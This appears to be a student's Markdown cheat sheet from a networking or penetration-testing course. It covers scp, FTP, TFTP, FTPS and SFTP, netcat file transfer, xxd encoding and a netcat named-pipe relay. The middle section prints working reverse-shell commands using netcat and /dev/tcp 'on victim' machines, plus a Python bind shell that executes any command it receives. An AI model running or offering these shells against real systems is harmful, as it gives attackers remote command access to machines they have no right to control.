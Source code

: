 # mknod
# steghide extract -sf 


# File Transfer methods 
    scp
        uses port 22 for transport 
        uses asymmetric and symmetric encryption
        non interactive 
    OPTIONS
     . - present working directory 
    -v - verbose method
    -P - alternate port
    -r - recursively copies the whole directory
    -3 - three way copy


        
    FTP
        Uses 2 separate tcp connections 
        command and control (21), data transfer (20)
        anonymous login
        insecure
        passive and active connections
    TFTP
        UDP based
        small and simple comms
        insecure, No encryption or encoding
        No directory services
    FTPS
        secure
        uses ports 20/21 regular
        uses ports 989/990 for encryption
        interactive terminal access
    
    SFTP
        transport 22
        uses symetric and asymetric encryption

# Active    
![FTP](https://github.com/user-attachments/assets/ada2309a-4eca-4023-9f60-a927a956efad)
# Passive 
![FTP](https://github.com/user-attachments/assets/9dfee368-0537-41cb-adc4-d65fa361457e)


    Netcat - swiss army hoe
        can be used for tcp/udp inbound and outbound connections

        
<h5> Listener (receive file): <h5>
    
     nc -lvp 9001 > newfile.txt

<h5>Client (sends file): </h5>  

     nc 172.16.82.106 9001 < file.txt

# Reverse Shell using NC

 First listen for the shell on your device.

        $ nc -lvp 9999

On Victim using -c :

    $ nc -c /bin/bash 10.10.0.40 9999

On Victim using -e :

    $ nc -e /bin/bash 10.10.0.40 9999

# Reverse shell using /dev/tcp

First listen for the shell on your device.

    $ nc -lvp 9999

On Victim:

    $ /bin/bash -i > /dev/tcp/10.10.0.40/9999 0<&1 2>&1

# Reverse shell using python 3
    
    #!/usr/bin/python3
    import socket
    import subprocess
    PORT = 1234        # Choose an unused port
    print ("Waiting for Remote connections on port:", PORT, "\n")
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.bind(('', PORT))
    server.listen()
    while True:
        conn, addr = server.accept()
        with conn:
            print('Connected by', addr)
            while True:
                data = conn.recv(1024).decode()
                if not data:
                    break
                proc = subprocess.Popen(data.strip(), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
                output, err = proc.communicate()
                response = output.decode() + err.decode()
                conn.sendall(response.encode())
    server.close()
    

# xxd example

echo a string of text and use xxd to convert it to a plain hex dump with the -p switch\

    $ echo "Hex encoding test" | xxd -p 48657820656e636f64696e6720746573740a

echo hex string and use xxd to restore the data to its original format

    $ echo "48657820656e636f64696e6720746573740a" | xxd -r -p Hex encoding test


# Listener - Listener

### On Blue_Host-1 Relay:

    $ mknod mypipe p

    $ nc -lvp 1111 < mypipe | nc -lvp 3333 > mypipe

### On Internet_Host (send):

    $ nc 172.16.82.106 1111 < secret.txt

### On Blue_Priv_Host-1 (receive):

    $ nc 192.168.1.1 3333 > newsecret.txt




















    

